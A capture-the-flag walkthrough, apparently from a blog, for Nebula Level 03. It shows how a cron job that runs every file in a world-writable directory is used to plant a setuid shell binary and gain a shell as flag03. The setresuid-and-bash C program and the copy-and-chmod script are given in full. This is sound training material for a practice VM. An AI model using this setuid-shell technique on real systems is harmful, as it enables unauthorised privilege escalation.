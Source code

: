 ```yaml
---
layout: post
title: "Nebula Series - Level 03"
---
```


*Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
system race conditions.*

**Level 03**: the one where a scheduled job betrays its owner


<!--more-->

Ok, so the first thing to understand is that cron jobs, similar to setuid binaries, run as a specific user. The instructions for
this level indicate that there is a crontab that is called every couple of minutes and that we should inspect the files in `/home/flag03`
for more clues.

Taking a closer look at that directory we see

```bash
level03@nebula:/home/flag03$ ls -l
total 4
drwxrwxrwx 1 flag03 flag03  40 2020-04-10 06:27 writable.d
-rwxr--r-- 1 flag03 flag03 103 2020-04-10 06:19 writable.sh
```

There's a directory `/writable.d`, that has some pretty lax permissions, and a script that's likely
related to the scheduled job mentioned in the instructions.

```bash
level03@nebula:/home/flag03$ cat ./writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

Ok, so the script iterates over the files in `/writable.d`, executes them, and then deletes them.
Could we abuse this to write to a directory we otherwise wouldn't have permission to? Say... `flag03`'s home directory?

We place the following script in a file in `/writable.d` and wait for the scheduled job to run

```bash
#!/bin/bash

touch /home/flag03/test
```

After a few minutes we check the directory

```bash
level03@nebula:/home/flag03$ ls -l
total 4
-rw-rw-r-- 1 flag03 flag03   0 2020-04-10 06:39 test
drwxrwxrwx 1 flag03 flag03  40 2020-04-10 06:39 writable.d
-rwxr--r-- 1 flag03 flag03 103 2020-04-10 06:19 writable.sh
```

Sure enough, our script placed a `test` file, owned by `flag03` in their home directory. Now what?

We've already learned from previous levels that a `setuid` binary can be exploited to gain the privileges of
the user that owns it, and we just learned that we can create files as `flag03`; the plan is coming together.

Because `setuid` is ignored on interpreted executables, let's write a simple C program that changes our real uid
and runs a shell.

We'll put the following in a file called `exploit.c`

```c
#include <stdlib.h>
#include <sys/types.h>

int main(int argc, char **argv, char **envp)
{
    uid_t uid;

    uid = geteuid();

    setresuid(uid, uid, uid);

    system("/bin/bash");
}
```

And we'll compile it and save the output as `2_exploit`

```bash
$ gcc /home/level03/exploit.c -o /home/level03/2_exploit
```

Next, let's create a script called `1_exploit.sh` that, when run by the scheduled job, will copy our executable to `flag03`'s home directory
and enable `setuid`.

```bash
#!/bin/bash

cp /home/flag03/writable.d/2_exploit /home/flag03/exploit
chmod +s /home/flag03/exploit
```

We've numbered the files so that they get executed in the proper order by the cron job otherwise it might delete our binary before
it gets copied.

We copy both of those files to `/home/flag03/writable.d` and wait for the scheduled job to run.

A few minutes later we see our `exploit` binary sitting in our target's home directory waiting for us to use it. Note that it's
owned by `flag03` and is `setuid`

```bash
level03@nebula:/home/flag03$ ls -l
total 12
-rwsrwsr-x 1 flag03 flag03 7243 2020-04-10 07:15 exploit
-rw-rw-r-- 1 flag03 flag03    0 2020-04-10 06:39 test
drwxrwxrwx 1 flag03 flag03   40 2020-04-10 07:15 writable.d
-rwxr--r-- 1 flag03 flag03  103 2020-04-10 06:19 writable.sh
```

All that's left is to run our executable to get a shell as `flag03`.

```bash
level03@nebula:/home/flag03$ ./exploit
bash-4.2$ whoami
flag03
bash-4.2$ getflag
You have successfully executed getflag on a target account
```

In summary:

- each cron job runs as a specific user
- if the job executes scripts in a directory with lax access controls, it can be exploited
